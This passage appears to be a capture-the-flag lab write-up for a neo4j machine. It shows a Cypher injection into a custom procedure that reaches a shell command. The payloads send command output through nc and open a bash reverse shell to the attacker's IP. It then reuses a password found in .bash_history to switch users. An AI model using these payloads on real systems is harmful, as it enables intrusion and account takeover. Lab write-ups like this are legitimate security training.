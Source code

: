 since the `url` parameter is injected directly into a bash command we can attempt code execution using the following payload:

```
1' OR 1=1 CALL custom.getUrlStatusCode('; whoami | nc 10.10.14.158 80') YIELD statusCode RETURN statusCode //
```

> I am using `nc` to get the command output called back to our listener as we cannot directly view the output of commands injected.
{:.info}

We're `neo4j` user!

```
connect to [10.10.14.158] from (UNKNOWN) [10.129.217.181] 37558
neo4j
```

Let's inject a reverse shell:

```
1' OR 1=1 CALL custom.getUrlStatusCode('; bash -c "bash -i >& /dev/tcp/10.10.14.158/9001 0>&1"') YIELD statusCode RETURN statusCode //
```

We get a reverse shell on our listener!

```
nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.14.158] from (UNKNOWN) [10.129.217.181] 35072
bash: cannot set terminal process group (1410): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```

# User
Looking around in `/var/lib/neo4j` we find a password in `.bash_history`

```
neo4j@cypher:~$ cat .bash_history
neo4j-admin dbms set-initial-password [REDACTED]
```

As well as the user `graphasm`:

```
neo4j@cypher:~$ ls /home
graphasm
```

Let's attempt to reuse these credentials:

```
neo4j@cypher:~$ su graphasm
Password: 
graphasm@cypher:/var/lib/neo4j$ 
```
